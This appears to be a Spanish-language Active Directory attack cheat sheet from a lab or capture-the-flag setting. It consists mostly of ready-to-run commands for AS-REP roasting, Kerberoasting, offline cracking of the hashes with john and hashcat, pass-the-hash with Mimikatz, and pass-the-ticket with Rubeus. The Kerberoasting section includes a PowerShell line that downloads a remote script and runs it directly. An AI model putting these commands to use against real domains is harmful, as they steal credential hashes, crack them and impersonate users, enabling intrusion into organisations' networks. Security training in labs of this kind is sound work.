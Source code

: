 *El ataque ASREPRoast busca usuarios sin el atributo requerido de autenticación previa de Kerberos (DONT_REQ_PREAUTH)*

`python3 GetNPUsers.py domain.htb/ -usersfile usernames.txt -outputfile hashes.asreproast` # Buscamos usuarios con un diccionario, si el usuario no necesita pre-autenticación, nos aparecerá su hash. *(Intentaremos crackearlo offline)*.

*Cracking the hash*

`
john --wordlist=rockyou.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast rockyou.txt 
`

## Kerberoasting

*El objetivo de Kerberoasting es recopilar tickets TGS para servicios que se ejecutan en nombre de cuentas de usuario en AD, no cuentas de computadora*

`GetUserSPNs.py -request -dc-ip 10.10.10.18 -hashes <LMHASH>:<NTHASH> domain.htb/john -outputfile hashes.kerberoast` # Obtener TicketsGrantingServices
 
 #### Windows mode

`
Request-SPNTicket -SPN "<SPN>" #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
`


## PASS THE HASH

*Una vez que tenga el hash de la víctima , puede usarlo para hacerse pasar por ella. Debe usar una herramienta que realice la autenticación NTLM usando ese hash , o puede crear un nuevo inicio de sesión e inyectar ese hash dentro del LSASS , de modo que cuando se realice cualquier autenticación NTLM , se usará ese hash.*

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.htb /ntlm:NTLMhash /run:powershell.exe"' ` # Usamos mimikatz en la maquina victima, este ataque tambien se puede efectuar con usuarios del ordenador, no solo del dominio.


## PASS THE TICKET 

*Este tipo de ataque es similar a Pass the Key, pero en lugar de usar hashes para solicitar un ticket, el ticket en sí es robado y utilizado para autenticarse como propietario*


`mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi" 
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi` #Cargamos el ticket en memoria
